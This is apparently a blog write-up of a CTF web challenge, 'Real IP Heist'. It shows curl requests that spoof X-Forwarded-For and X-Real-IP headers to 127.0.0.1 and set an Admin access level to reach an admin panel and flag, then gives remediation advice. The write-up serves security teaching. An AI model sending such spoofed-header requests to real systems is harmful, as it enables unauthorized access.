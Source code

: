 ```yaml
---
title: "🔓 Safaricom PwnZone – Real IP Heist"
layout: post
collection: writeups
permalink: /writeups/safaricom-real-ip-heist/
date: 2025-10-04
categories: [Writeups]
tags: [web, headers, pwnzone]
image: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
thumbnail: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
icon: fas fa-network-wired
excerpt: "Abused trust in X-Forwarded-For / X-Real-IP headers to escalate access and retrieve the flag."
description: "Exploit of server trusting client-supplied X-Forwarded-For/X-Real-IP headers, obtaining Admin access and the flag."
---
```


![Real IP Heist Screenshot](/assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg)

# Real IP Heist — Challenge Writeup

## Challenge Overview

* **Challenge Name:** Real IP Heist
* **Target URL:** `http://54.72.82.22:8085`
* **Description:** "Ever wonder what your network really reveals about you. Not everything is as anonymous as it seems..."

---

## Step-by-Step Solution

### 1. Initial Reconnaissance

Visited the target URL in a browser. The page displayed a simple login form with:

* Username (free text input)
* Access Level (dropdown with only "User" available)
* Login button

![Login Form Screenshot](/assets/images/writeups/real-ip-heist/TargetIP.png)

### 2. Analyzing Client-Side Restrictions

Inspected the page source and network activity using browser developer tools. Discovered that client-side JavaScript was setting a fixed `X-Forwarded-For` header, limiting users to "User" access level regardless of input.

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/View-Page-Source.png)

![Source Code Screenshot](/assets/images/writeups/real-ip-heist/Source-code.png)

### 3. Bypassing Client-Side Restrictions

The server appeared to trust HTTP headers for IP verification. I bypassed client-side restrictions using `curl` to send custom requests with spoofed headers.

### 4. First curl Request — Gaining Admin Access

Crafted a `curl` command to:

* Send a POST request to the login endpoint
* Override the `X-Forwarded-For` header to simulate an internal IP (`127.0.0.1`)
* Set the `access_level` parameter to `Admin` directly in POST data

```bash
curl -X POST 'http://54.72.82.22:8085/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data 'username=attacker&access_level=Admin'
```

**Response:**

```html
<h2>Hello, attacker</h2>
<!-- real admin use internal tools -->
<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>
```

### 5. Second curl Request — Accessing Admin Panel

The response revealed an `/admin` endpoint. Sent another request with both spoofed headers:

```bash
curl -X GET 'http://54.72.82.22:8085/admin' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1'
```

**Response:**

```html
<h3>Welcome, admin!</h3>
<p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Curl.png)

## Vulnerability Analysis

**Critical Security Flaw:** The application trusted client-supplied headers for authentication decisions.

**Specific Issues:**

* Server used `X-Forwarded-For` and `X-Real-IP` headers to verify internal/trusted IPs.
* Spoofing headers to `127.0.0.1` bypassed access controls.
* `access_level` parameter was vulnerable to direct manipulation.
* Client-side restrictions provided a false sense of security.

## Flag

```
safctf{c0f1ec1fccb2de4a03031037251f21a7}
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Flag.png)

## Key Takeaways

* Never trust client-supplied headers for security decisions.
* Client-side restrictions are easily bypassed and should not be relied upon for access control.
* Always validate authentication and authorization on the server side.
* IP-based authentication can be vulnerable to header injection attacks.
* Security through obscurity (hidden admin endpoints) is not effective protection.

## Remediation Recommendations (brief)

1. Do not rely on `X-Forwarded-For` or other client-controllable headers for trust decisions. Implement server-side checks using trusted sources (e.g., internal firewall, verified reverse proxy that strips/sets these headers).
2. Validate and enforce `access_level` server-side; do not accept privilege escalation via POST parameters.
3. Implement proper authentication/authorization controls (session tokens, role checks) that cannot be manipulated from the client.
4. Harden server by ensuring only trusted proxies can set forwarding headers and by validating the source ASN/IP ranges where appropriate.
5. Log and monitor suspicious header manipulations and failed attempts.

---

## Notes

* All testing described above was performed in the context of the CTF challenge as provided by the target URL.

